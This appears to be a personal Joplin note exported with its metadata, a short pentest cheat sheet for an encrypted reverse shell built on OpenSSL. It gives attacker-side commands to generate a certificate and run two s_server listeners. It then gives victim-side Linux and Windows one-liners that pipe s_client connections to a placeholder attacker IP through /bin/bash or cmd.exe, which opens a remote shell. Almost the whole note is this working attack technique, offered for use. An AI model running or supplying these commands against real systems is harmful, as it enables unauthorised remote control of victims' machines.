 OpenSSH

Attacker (Kali)

> openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
> 
> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
> 
> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response

Victim

> #Linux
> openssl s\_client -quiet -connect &lt;ATTACKER\_IP&gt;:&lt;PORT1&gt;|/bin/bash|openssl s\_client -quiet -connect &lt;ATTACKER\_IP&gt;:&lt;PORT2&gt;
> 
> #Windows
> openssl.exe s\_client -quiet -connect &lt;ATTACKER\_IP&gt;:&lt;PORT1&gt;|cmd.exe|openssl s\_client -quiet -connect &lt;ATTACKER\_IP&gt;:&lt;PORT2&gt;

id: 6b802989f53e414e97c1a369c95baae5
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:04:05.674Z
updated_time: 2022-01-14T07:05:29.382Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:04:05.674Z
user_updated_time: 2022-01-14T07:05:29.382Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1